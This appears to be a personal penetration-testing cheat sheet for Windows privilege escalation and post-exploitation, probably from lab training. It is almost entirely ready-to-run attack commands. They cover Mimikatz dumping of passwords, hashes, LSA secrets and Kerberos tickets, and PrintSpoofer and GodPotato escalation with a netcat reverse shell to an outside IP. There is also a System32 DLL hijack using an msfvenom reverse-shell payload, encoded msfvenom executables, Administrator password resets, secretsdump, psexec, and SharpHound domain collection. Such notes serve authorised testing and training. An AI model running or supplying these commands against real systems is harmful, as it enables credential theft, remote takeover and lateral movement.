 # Upon access:

1. Administrator? Yes:

```powershell
.\mimikatz.exe "privilege::debug" "token::elevate" "sekurlsa::logonpasswords" "lsadump::sam" "exit"
```

```powershell
.\mimikatz.exe "privilege::debug" "token::elevate" "sekurlsa::logonpasswords" "lsadump::lsa /inject" "lsadump::sam" "lsadump::cache" "lsadump::secrets" "sekurlsa::ekeys" "vault::cred /patch" "sekurlsa::tickets /export" "exit" | Out-file mimikatz-output.txt
```

## SeImpersonatePrivilege

```
whoami /priv
...
SeImpersonatePrivilege        Impersonate a client after authentication Enabled
```

[Printspoofer](https://github.com/itm4n/PrintSpoofer/releases)

```
.\printspoofer.exe -i -c powershell.exe
```

If Printspoofer doesn't work,

[GodPotato](https://github.com/BeichenDream/GodPotato/releases/tag/V1.20)

```powershell
.\GodPotato-NET4.exe -cmd "nc.exe -e C:\Windows\System32\cmd.exe 192.168.45.173 4444"
```
\
## SeManageVolumePrivilege

[Info.](https://medium.com/@raphaeltzy13/exploiting-semanagevolumeprivilege-with-dll-hijacking-windows-privilege-escalation-1a4f28372d37)

On Windows:

```
iwr -uri https://github.com/CsEnox/SeManageVolumeExploit/releases/download/public/SeManageVolumeExploit.exe -outfile SeManageVolumeExploit.exe
```

```
.\SeManageVolumeExploit.exe
Entries changed: 918
DONE
```

On linux:

```
msfvenom -p windows/x64/shell_reverse_tcp LHOST=192.168.45.194 LPORT=1337 -f dll -o tzres.dll
```

Then:

```
iwr -uri http://192.168.45.194/tzres.dll -outfile tzres.dll
```

```
mv tzres.dll C:\Windows\System32\wbem\
```

Then simply open up a netcat listener and run `systeminfo`.

## Interesting Files

```powershell
Get-ChildItem -Path C:\ -Include *.txt,*.ini,*.zip -File -Recurse -ErrorAction SilentlyContinue
```

## Secretsdump 

change Administrator's password:

```
net user Adminstrator Password123
```

Then use secretsdump:

```
impacket-secretsdump Administrator:Password123@192.168.178.249
```

Always use it with mimikatz!!!!

## Check for interesting directories

Check for directories in `C:\`, `C:\Users\username`, `C:\Users`, `C:\Windows` and so on. 

## Run winpeas

[Winpeas](https://github.com/peass-ng/PEASS-ng/releases/download/20240915-f58aa30b/winPEASx64.exe)

Check for unquoted paths, registry keys

## Environment variables

Might contain interesting entries.

```
dir env:
Get-ChildItem env:
```

## msfconsole for reverse shell

```bash
msfvenom -p windows/x64/shell_reverse_tcp LHOST=192.168.45.200 LPORT=9000 -f exe -o reverse_shell.exe
```

For DLLs I recommend using:

```bash
msfvenom -p windows/shell_reverse_tcp LHOST=192.168.45.194 LPORT=5555 -f dll -a x86 --platform windows -e x86/xor_dynamic -b '\x00' -o privesc.dll
```
# Service Check

```
Get-CimInstance -ClassName win32_service | Select Name,State,PathName | Where-Object {$_.State -like 'Running'}
```

# psexec

```bash
psexec.py Administrator:'Password123'@192.168.175.95
```

# Sharphound

```powershell
Set-ExecutionPolicy RemoteSigned
. .\SharpHound.ps1
Invoke-BloodHound -CollectionMethod All -Domain secura.yzx -zipFileName loot.zip
```

